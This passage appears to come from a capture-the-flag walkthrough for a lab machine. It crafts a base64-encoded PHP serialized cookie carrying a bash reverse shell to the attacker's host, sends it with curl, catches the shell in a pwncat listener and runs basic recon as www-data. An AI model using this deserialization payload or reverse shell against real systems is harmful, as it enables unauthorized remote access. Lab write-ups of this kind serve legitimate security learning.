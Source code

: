```html
uid=33(www-data) gid=33(www-data) groups=33(www-data) ←
```

`echo -n "bash -c 'exec bash -i >& /dev/tcp/192.168.56.118/4444 0>&1'" | wc -c`:
```
59 ←
```

`vim ./revsh_cookie.txt`:
```
O:15:"UserPreferences":2:{s:8:"language";s:59:"bash -c 'exec bash -i >& /dev/tcp/192.168.56.118/4444 0>&1'";s:15:"backgroundColor";s:4:"#ddd";} ←
```

`cat ./revsh_cookie.txt | base64 -w 0`:
```
TzoxNToiVXNlclByZWZlcmVuY2VzIjoyOntzOjg6Imxhbmd1YWdlIjtzOjU5OiJiYXNoIC1jICdleGVjIGJhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC41Ni4xMTgvNDQ0NCAwPiYxJyI7czoxNToiYmFja2dyb3VuZENvbG9yIjtzOjQ6IiNkZGQiO30K
```

`pwncat-cs -lp 4444`:
```
[13:13:13] Welcome to pwncat 🐈!
bound to 0.0.0.0:4444 ←
```

`curl -s "http://192.168.56.135/preferences.php" -b "preferences=TzoxNToiVXNlclByZWZlcmVuY2VzIjoyOntzOjg6Imxhbmd1YWdlIjtzOjU5OiJiYXNoIC1jICdleGVjIGJhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC41Ni4xMTgvNDQ0NCAwPiYxJyI7czoxNToiYmFja2dyb3VuZENvbG9yIjtzOjQ6IiNkZGQiO30K"`

```
[13:40:40] received connection from 192.168.56.135:58474 ←
[13:40:41] 192.168.56.135:58474: registered new host w/ db
```

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
www-data ←
```

`id`:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

`uname -a`:
```
Linux jo2024.hmv 6.1.0-23-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.99-1 (2024-07-15) x86_64 GNU/Linux
```

`lsb_release -a`:
```
No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 12 (bookworm)
Release:        12
Codename:       bookworm
```
